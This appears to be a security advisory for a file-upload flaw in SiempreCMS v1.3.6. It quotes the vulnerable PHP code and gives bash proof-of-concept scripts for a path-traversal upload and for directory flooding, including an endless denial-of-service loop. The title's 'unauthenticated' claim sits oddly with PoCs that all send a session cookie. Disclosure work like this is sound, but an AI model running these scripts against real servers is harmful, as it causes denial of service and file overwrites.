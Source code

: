 # Unauthenticated File Upload Allows Server Flooding – SiempreCMS

- **Type:** Arbitrary File Upload / Resource Exhaustion  
- **Location:** `docs/admin/file_upload.php`  
- **Impact:** An attacker can upload files to arbitrary directories under `../media/`, including hidden module directories. While uploaded files cannot be executed as PHP scripts in this setup, the vulnerability allows **flooding a specific directory with large numbers of files**, potentially exhausting disk space, degrading server performance, or causing denial-of-service conditions.  
- **Product:** *[SiempreCMS v1.3.6](https://github.com/SiempreCMS/SiempreCMS)*
---

## Vulnerable Code Analysis

```php
if (isset($_POST['folder-path']) && substr($_POST['folder-path'], 0, 9) == '../media/') {
	$path = $_POST['folder-path'];
} else {
	$status = 'Bad request in folder path!';
	echo json_encode(array('status' => $status));
	exit();
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && @is_uploaded_file($_FILES['image']['tmp_name'])) {
	$ext = strtolower(pathinfo($_FILES['image']['name'], PATHINFO_EXTENSION));
	if (in_array($ext, $valid_exts) AND $_FILES['image']['size'] < $max_size) {
		$path = $path . $_FILES['image']['name'];
		if (move_uploaded_file($_FILES['image']['tmp_name'], $path)) {
			$status = 'Image successfully uploaded!';
		} else {
			$status = 'Upload Fail: Unknown error occurred!';
		}
	} else {
		$status = 'Upload Fail: Unsupported file format or It is too large to upload!';
	}
} else {
	$status = 'Upload Fail: File not uploaded!';
}
```

### Analysis
**Folder Path Control:** The code allows uploading files to any directory that begins with ``../media/.`` By manipulating folder-path, attackers can reach hidden or sensitive directories such as ``modules/helloworld/``.

#### **File Type & Size Validation:**

-    Only extensions in ``['jpeg','jpg','png','gif','doc','docx','pdf']`` are allowed.
-    Maximum size is 1600 KB.
-    While this prevents arbitrary PHP execution, it does not prevent mass upload of allowed files.
-    No Filename Sanitization: The uploaded file name is directly concatenated to the path, allowing overwriting existing files.
-    No Execution: Uploaded files cannot be executed as PHP code in this configuration.

---
### Proof of Concept Arbitrary File Upload / Resource Exhaustion (Flooding)
#### Exploit 1: Basic Upload
-    This PoC demonstrate a file upload in other directories.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -X POST \
 -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
 -F "folder-path=../media/../../modules/helloworld/" \
 -F "image=@sample.txt.jpeg;filename=shell.txt.jpeg" \
 http://localhost/SiempreCMS/docs/admin/file_upload.php

{"status":"Image successfully uploaded!"}
```

**Evidence:**
</br>
![](./basic.png)


#### Exploit 2: Directory Flooding
-    This PoC demonstrates uploading a large number of files to the vulnerable directory, which can consume server resources and slow down the application.

```bash
# Flood the modules/helloworld/ directory with 999999999 files
NUM_FILES=999999999

for i in $(seq 1 $NUM_FILES); do
  # Generate a sample file
  echo "This is test file $i" > sample_$i.txt
  # Rename with allowed extension
  mv sample_$i.txt sample_$i.txt.jpeg
  # Upload file
  curl -s -X POST \
   -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
   -F "folder-path=../media/../../modules/helloworld/" \
   -F "image=@sample_$i.txt.jpeg;filename=sample_$i.txt.jpeg" \
   http://localhost/SiempreCMS/docs/admin/file_upload.php
done
```

**Evidence:**
</br>
![](./cli.png)

</br>

![](./gui.png)


#### Exploit 3: Infinite Flood (Runs until stopped, DoS)
-	This script never stops — it just keeps generating and uploading files until you kill it.
```bash
#!/bin/bash

# Infinite flooder - runs until manually stopped
TARGET="http://localhost/SiempreCMS/docs/admin/file_upload.php"
COOKIE="PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl"
FOLDER_PATH="../media/../../modules/helloworld/"

i=1
while true; do
  echo "Infinite flood file $i" > flood_$i.txt
  mv flood_$i.txt flood_$i.txt.jpeg

  # Fire multiple uploads in background
  curl -s -X POST \
   -b "$COOKIE" \
   -F "folder-path=$FOLDER_PATH" \
   -F "image=@flood_$i.txt.jpeg;filename=flood_$i.txt.jpeg" \
   "$TARGET" &

  # Every 100 files, wait for background jobs to clear
  if (( $i % 100 == 0 )); then
    wait
    echo "[*] Uploaded $i files so far..."
  fi

  ((i++))
done

```

---

### Expected Outcome
-    Hundreds of files are uploaded to ``modules/helloworld/``.
-    Disk usage in the directory increases significantly.
-    Server performance may degrade due to the large number of files.
-    Existing files in the directory can be overwritten if the same filename is used.
-    No PHP execution occurs, so it’s not remote code execution.
